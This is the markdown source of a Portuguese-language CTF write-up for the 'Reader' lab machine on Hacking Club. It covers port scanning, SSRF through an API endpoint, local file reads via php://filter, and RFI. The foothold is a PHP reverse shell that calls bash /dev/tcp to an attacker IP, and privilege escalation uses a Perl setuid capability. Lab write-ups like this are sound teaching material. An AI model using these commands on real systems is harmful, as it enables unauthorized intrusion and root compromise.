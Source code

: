 ```yaml
---
title: 'Reader Writeup'
date: '2024-06-29'
tags: ['SSRF', 'RFI', 'Linux']
draft: false
summary: 'Writeup do CTF Reader da Hacking Club.'
images: ['/static/images/writeup-reader-images/logo-reader.png']
authors: ['default']
---
```


![Logo Reader](/static/images/writeup-reader-images/logo-reader.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Reader

### IP: 172.16.4.104

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:6f:d9:6f:08:c8:eb:59:76:5f:fe:f5:1f:28:b4:d2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCdE/+UDioqJcBqKEjyENBihhOMB9Ocue8I+pDmGchJZvrGwO2MbIiL6VLH+bqm08nrq+NdjzWM7TewudhK9viM=
|   256 81:51:ba:61:11:db:07:50:51:66:92:d8:e1:ff:68:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKH7CspTNqFcDLRTPhHJYggspYSAuzmq+DXCv2U/Q2Jq
80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Emergency Maintenance
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Essa maquina tem somente as portas 22 (SSH) e 80 (HTTP) aberta.

### **Enumeration**

Uma página web simples que aparentemente está em manutenção e somente o serviço de API está funcionando.
![Página de manutenção](/static/images/writeup-reader-images/1.png)

Nada no robots.txt.

Não tem muito o que se fazer , então fiz um fuzzing pra procurar por diretórios antes de ver essa API.

`gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -x php,sh,txt,cgi,html,js,css,py`

```bash
Starting gobuster in directory enumeration mode
===============================================================
/api.php              (Status: 200) [Size: 56]
/index.php            (Status: 200) [Size: 17866]
/logfiles             (Status: 301) [Size: 315] [--> <http://172.16.4.104/logfiles/>]

```

Tem um diretório chamado `logfiles` que vai ser útil mais pra frente.

---

Na parte de API diz que só aceita requisições POST.

![API POST](/static/images/writeup-reader-images/2.png)
Peguei a requisição pelo burp pra enviar com POST.
![Burp requisicao](/static/images/writeup-reader-images/3.png)
Diz que esta faltando um parâmetro chamado URL.

Por alguma razão pelo burp não esta funcionando passar o parâmetro , mas via curl deu certo:

![Curl POST](/static/images/writeup-reader-images/4.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1"`

Ele está salvando a requisição em algum lugar no arquivo .txt (Salvo em /logfiles/ achado via gobuster).
![Curl resposta](/static/images/writeup-reader-images/curl-1.png)Como o parâmetro se chama `url` podemos deduzir que se trata de um SSRF.
Utilizei esse simples port scan pra descobrir quais portas internas o servidor possui.

```bash
for port in 22 21 25 80 8080 3306 5432 8443 445 9000; do echo "Scanning port $port..."; curl -X POST -s -d "url=http://127.0.0.1:$port" "<http://172.16.4.104/api.php>" | cat; done
```

Foi achado 2 portas interessantes com esse portscan a porta 3306 e a 8080:
![Portas interessantes](/static/images/writeup-reader-images/curl-2.png)
Agora é fazer a requisição na porta 8080 com o curl e ver .

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/"`

![Curl 8080](/static/images/writeup-reader-images/curl-3.png)A gente pode ir no diretorio `logfiles` pra ver qual foi a resposta do servidor.

![Logfiles resposta](/static/images/writeup-reader-images/logfile-output-1.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php"`
![Curl read.php](/static/images/writeup-reader-images/curl-4.png)
Lendo o output , ele diz que falta um parâmetro chamado `file`
![Logfiles output 2](/static/images/writeup-reader-images/logfile-output-2.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=/etc/passwd"`
![Curl etc/passwd](/static/images/writeup-reader-images/curl-5.png)
![Logfiles output 3](/static/images/writeup-reader-images/logfile-output-3.png)
Pra entender melhor o que a aplicação está fazendo a gente vai ler o arquivo read.php utilizando o schema `php://`

Lembrando que é necessário converter pra base64 , por que se não a aplicação vai nos retornar uma pagina em branco.

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=php://filter/convert.base64-encode/resource=read.php"`
![Curl base64](/static/images/writeup-reader-images/curl-6.png)
![Logfiles output 4](/static/images/writeup-reader-images/logfiles-output-4.png)
![Decode base64](/static/images/writeup-reader-images/decode-base64.png)

`Include $_GET ['file']` indica um RFI (Remote-File Inclusion) que podemos usar pra ganhar acesso ao servidor.

## Foothold

`python3 -m http.server`

```bash
#shell.php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.0.31.150/1337 0>&1'"); ?>
```

![Python server](/static/images/writeup-reader-images/python-m-http-server.png)

Agora é so mandar a requisição pro servidor.
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=http://10.0.31.150:80/shell.php"`
![Foothold](/static/images/writeup-reader-images/foothold.png)

## Privilege Escalation

`getcap -r / 2>/dev/null`
![Privesc 1](/static/images/writeup-reader-images/privesc-1.png)
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";’`
![Privesc 2](/static/images/writeup-reader-images/privesc-2.png)

## Proof

![Proof](/static/images/writeup-reader-images/proof.png)
